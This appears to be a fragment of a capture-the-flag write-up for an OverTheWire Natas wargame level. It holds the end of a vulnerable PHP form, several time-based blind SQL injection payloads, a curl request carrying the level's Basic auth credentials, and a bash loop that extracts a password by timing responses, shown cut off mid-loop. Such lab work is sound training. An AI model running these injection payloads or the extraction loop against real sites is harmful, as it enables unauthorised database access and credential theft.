 ```php
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```text
natas18" and sleep(3) #
```

```text
curl -o /dev/null -s -X POST "http://natas17.natas.labs.overthewire.org/index.php" -H "Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==" --data "username=natas18"%"22+and++sleep"%"283"%"29+"%"23" -w %{time_total}
```

```text
natas18" AND IF(1=1, SLEEP(3), 0)#
```

```text
natas18" AND IF((SELECT MID(username, 1, 1) FROM users WHERE
username="natas18")='n', SLEEP(3), 0) #
```

```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
MIDCounter=1
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF((SELECT MID(password, 1, $MIDCounter) FROM users WHERE username=\"natas18\")='$password$letter', SLEEP($sleeptime), 0) #"
        #echo $injection
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
```